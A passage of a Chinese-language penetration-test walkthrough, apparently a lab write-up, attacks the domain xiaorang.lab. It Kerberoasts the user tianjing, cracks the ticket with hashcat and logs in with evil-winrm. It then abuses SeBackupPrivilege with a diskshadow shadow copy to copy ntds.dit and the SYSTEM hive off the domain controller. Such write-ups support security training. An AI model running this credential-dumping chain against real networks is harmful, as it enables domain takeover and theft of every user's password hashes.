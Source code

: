 抓取tianjing的hash，写入hash.txt

```bash
proxychains4 impacket-GetUserSPNs xiaorang.lab/'XR-0923$' -hashes ':a5ac13ae0abc9935a13e81c88f638494' -dc-ip 172.22.14.11 -request-user tianjing
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114153627-ic76b17.png?imageSlim)​

使用hashcat进行密码爆破

```bash
hashcat -a 0 -m 13100 hash.txt rockyou.txt
```

得到tianjing密码是DPQSXSXgh2

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114153849-8j0icra.png?imageSlim)​

`evil-winrm`​连一下

```bash
proxychains4 evil-winrm -i 172.22.14.11 -u tianjing -p DPQSXSXgh2 
```

whoami /priv查看用户权限，发现又多一个SeBackupPrivilege

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114153959-vepohlb.png?imageSlim)​

kali上新建一个raj.dsh，内容如下

```bash
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

再用unix2dos将dsh文件的编码间距转换为Windows兼容的编码和间距

```bash
unix2dos raj.dsh
```

在`C:/`​下随便创个目录，上传raj.dsh

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114154731-8iqoqtm.png?imageSlim)​

卷影拷贝

```bash
diskshadow /s raj.dsh
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114154809-8z2abqi.png?imageSlim)​

下载ntds.dit和system到kali上

```bash
RoboCopy /b z:\windows\ntds . ntds.dit
download ntds.dit
reg save HKLM\SYSTEM system
download system
```
